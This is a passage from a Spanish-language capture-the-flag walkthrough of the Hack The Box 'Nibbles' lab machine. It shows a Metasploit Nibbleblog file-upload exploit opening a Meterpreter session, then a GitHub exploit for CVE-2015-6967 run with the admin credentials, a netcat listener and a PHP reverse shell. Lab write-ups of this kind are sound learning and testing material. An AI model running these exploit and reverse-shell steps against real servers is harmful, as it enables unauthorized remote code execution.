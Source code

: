 * Ejecuta el Exploit:
```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > exploit
*
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Sending stage (39927 bytes) to 10.10.10.75
[+] Deleted image.php
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 10.10.10.75:47988)
*
meterpreter > sysinfo
Computer    : Nibbles
OS          : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: nibbler
```
Y listo, ya podemos continuar viendo la forma de escalar privilegios.

<br>

<h3 id="Forma4">Probando Exploit de GitHub del CVE-2015-6967</h3>

Existe un Exploit de GitHub, que te automatiza la forma de subir los archivos y así poder acceder a la máquina. Lo único que necesitas es tener una **Reverse Shell** de **PHP** (como la de **pentestmonkey**) y usar el Exploit de GitHub que esta hecho en **Python** de este **GitHub**:
* https://github.com/dix0nym/CVE-2015-6967

Lo malo es que ya viene con las credenciales para entrar, no esta mal, pero yo lo considero un poco tramposo porque ya te dieron un spoiler de como resolverla, pero lo puedes usar.

Vamos por pasos:

* Descarga el repo en tu máquina:
```bash
git clone https://github.com/dix0nym/CVE-2015-6967.git          
Clonando en 'CVE-2015-6967'...
remote: Enumerating objects: 7, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 7 (delta 0), reused 4 (delta 0), pack-reused 0
Recibiendo objetos: 100% (7/7), listo.
```

* Descarga y configura la **Reverse Shell** de **pentestmonkey**, aunque para este punto ya deberías tenerla lista.

* Una vez descargada y configurada, ponla en el mismo directorio en donde esté el Exploit. 

* Activa una **netcat**:
```bash
nc -nvlp 443   
listening on [any] 443 ...
```

* Ahora, usa el Exploit:
```bash
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload php-reverse-shell.php 
[+] Login Successful.
[+] Upload likely successfull.
```
